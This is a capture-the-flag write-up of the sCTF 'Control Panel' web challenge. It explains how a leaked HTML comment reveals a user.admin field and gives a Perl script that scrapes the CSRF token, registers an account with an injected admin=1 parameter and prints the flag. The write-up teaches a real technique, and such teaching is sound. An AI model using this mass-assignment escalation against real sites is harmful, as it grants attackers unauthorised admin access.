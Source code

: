 #Control Panel

Take control... of the flag on this [admin control panel](http://cpanel.sctf.michaelz.xyz/).

**Hint:** *There are more hints in the comments.*

## Getting an overview

We go to the site and browse about a bit, to see what we are dealing with. We got

1) The main page
2) Register / sign up page
3) Login page
4) Control Panel page (when logging in)

We check the out the source of the html for each page, the first page that has some interesting stuff, is the register page, we can see in the end it has a function called **register_form** and in the html we can see that the form have registered it as a callback when the form is submitted.

```
var register_form = function() {
  var disable = "input";
  $(disable).attr("disabled", "disabled");
  $.post("/api/user/register", {
    _csrf: "lyYp1wpK-I3KCeNoHwreYKYwz5tiCl65Hw8s",
    username: $("#username").val(),
    password: $("#password").val(),
  }, function(result) {
    display_message("#register_msg", (result.success == 1 ? "success" : "danger"), result.message, function() {
      if (result.success == 1) { location.href = "/account"; }
      else { $(disable).removeAttr("disabled"); }
    });
  });
};
```

From this function we can see that it post to the url /api/user/register and we can see it post the username, password and a random csrf value. (we can refresh the page and see it changes each time).

When your data has been posted to the server it return a json string indicating success of failure to create the new user. We can see that you get redirected to /account if your user got created.

We try to create an account and see what happens when we get redirected to /account.

A  new page we haven't seen before loads, with a message  **"No flag for you, you are not an admin"**, we check out the pages source and in the bottom we find the following

```
<!--
Error: user.admin is not equal to true.
{
	"_id": "570fa9861dd79e06001cd598",
	"username": "zylopfa9999",
	"password": "$2a$10$NgyVTlXpq4fARKAu92d8a.YBjB46ukNOTSZgHkgcCOkIYPl/9CF4W",
	"uid": "r1lfa4q3ofoab3hx35vswc7c6"
}
-->

```

Here user.admin likely refer to the table user and the column admin, in some sort of internal database, so we can deduct that username maps to user.username and password maps to user.password.

How could we set the admin to true, in a very badly designed system? Well we could try to post an additional key value pair: **"admin":1** to see if that could work.

With the ever changing csrf value, we need to make a program to solve this, perl to the rescue.

## Programming time

Basically our program will have to do the following

1) Load the registration page, and scrape off the csrf value, we need it when posting.
2) Send a POST request to the server endpoint, with the csrf,username,password and admin values.
3) Go to the /account page and check if we can find a flag!

We use perl to program this

```
#!/usr/bin/perl
use LWP;
use LWP::UserAgent;
use HTTP::Cookies;
use URI::Escape;

my $cookie_jar = HTTP::Cookies->new(
    agent => "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:27.0) Gecko/20100101 FireCow/27.0"
);

my $ua = LWP::UserAgent->new(
    ssl_opts   => { verify_hostname => 0 },
    cookie_jar => $cookie_jar,
);

push @{ $ua->requests_redirectable }, 'POST';

my $username="zylopfa" . rndStr (8, 'A'..'Z','a'..'z', 0..9);
my $csrf = "";

# get the csrf value
my $csrfpage = "http://cpanel.sctf.michaelz.xyz/register";
my $req = HTTP::Request->new(GET => "$csrfpage");
my $res = $ua->request($req);

if ( $res->content =~ /csrf: \"(.*?)\",/gis ) {
  $csrf =  $1;
}

# Registration using randomish username and password and the csrf value
my $page = "http://cpanel.sctf.michaelz.xyz/api/user/register";

$req = HTTP::Request->new(POST => "$page");
$req->header('Referer', 'http://cpanel.sctf.michaelz.xyz/register');
$req->content_type('application/x-www-form-urlencoded');
$req->content("_csrf=" . $csrf . "&username=" . $username . "&password=passw0rd0&admin=1");
$res = $ua->request($req);

# Go to the admin page and scrape the flag

my $adminpage = "http://cpanel.sctf.michaelz.xyz/account";
$req = HTTP::Request->new(GET => "$adminpage");
$res = $ua->request($req);

if ( $res->content =~ /(sctf{.*?})/gis ) {
  print $1 . "\n";
}

sub rndStr{ join'', @_[ map{ rand @_ } 1 .. shift ] }

```

The code if following the steps we outlined above and should be pretty explanatory. All we have to do now in order to find the flag is to execute the program.

`./solve.pl`

And we get the flag:

**sctf{TIL_noSql_cAn_bE_InjeKT3d_t0o}**
